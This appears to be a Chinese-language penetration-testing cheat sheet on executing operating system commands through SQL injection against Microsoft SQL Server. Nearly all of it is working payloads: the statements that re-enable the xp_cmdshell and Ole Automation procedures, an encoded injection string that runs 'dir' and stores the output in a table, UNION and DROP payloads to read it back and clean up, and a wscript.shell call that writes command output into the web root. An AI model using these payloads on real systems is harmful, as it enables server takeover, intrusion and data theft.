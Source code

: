 ### 系统命令执行

#### 1\. 使用 xp_cmdshell 存储过程执行操作系统命令。

```
EXEC master.dbo.xp_cmdshell 'cmd'; 
```

`xp_cmdshell` 存储过程在 MSSQL 2005 及以上版本中默认是禁用的.

激活 `xp_cmdshell` 存储过程的语句:

```
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE; 
```

检查是否 xp_cmdshell 是否加载，如果是,将继续检查是否处于活动状态，然后继续执行“DIR”命令并将结果插入到 TMP_DB 表中：

#### 示例：

```
' IF EXISTS (SELECT 1 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME='TMP_DB') DROP TABLE TMP_DB DECLARE @a varchar(8000) IF EXISTS(SELECT * FROM dbo.sysobjects WHERE id = object_id (N'[dbo].[xp_cmdshell]') AND OBJECTPROPERTY (id, N'IsExtendedProc') = 1) BEGIN CREATE TABLE %23xp_cmdshell (name nvarchar(11), min int, max int, config_value int, run_value int) INSERT %23xp_cmdshell EXEC master..sp_configure 'xp_cmdshell' IF EXISTS (SELECT * FROM %23xp_cmdshell WHERE config_value=1)BEGIN CREATE TABLE %23Data (dir varchar(8000)) INSERT %23Data EXEC master..xp_cmdshell 'dir' SELECT @a='' SELECT @a=Replace(@a%2B'<br></font><font color="black">'%2Bdir,'<dir>','</font><font color="orange">') FROM %23Data WHERE dir>@a DROP TABLE %23Data END ELSE SELECT @a='xp_cmdshell not enabled' DROP TABLE %23xp_cmdshell END ELSE SELECT @a='xp_cmdshell not found' SELECT @a AS tbl INTO TMP_DB-- 
```

转储内容:

```
' UNION SELECT tbl FROM TMP_DB-- 
```

删除表:

```
' DROP TABLE TMP_DB-- 
```

#### 2.利用 sp_OACREATE 和 sp_OAMethod 调用控件执行系统命令:

```
DECLARE @execmd INT EXEC SP_OACREATE 'wscript.shell', @execmd OUTPUT EXEC SP_OAMETHOD @execmd, 'run', null, '%systemroot%\system32\cmd.exe [[/c]]   ver >C:\inetpub\wwwroot\test.txt' 
```

`sp_oacreate` 存储过程在 MSSQL 2005 及以上版本中默认是禁用的.

激活 sp_oacreate 存储过程的语句:

```
exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE; 
```
